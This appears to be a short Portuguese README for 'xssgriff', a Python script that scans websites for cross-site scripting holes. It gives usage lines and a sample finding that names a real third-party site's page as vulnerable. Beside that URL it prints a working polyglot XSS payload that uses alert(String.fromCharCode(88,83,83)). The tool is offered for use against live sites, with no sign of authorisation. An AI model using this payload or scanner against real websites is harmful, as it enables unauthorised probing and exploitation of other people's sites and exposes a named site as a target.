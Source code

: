 python;)
                          _  __ 
 __  _____ ___  __ _ _ __(_)/ _|
 \ \/ / __/ __|/ _` | '__| | |_ 
  >  <\__ \__ \ (_| | |  | |  _|
 /_/\_\___/___/\__, |_|  |_|_|  
               |___/            


xssgriff
Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br

URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>


https://www.facebook.com/JRPENTESTER
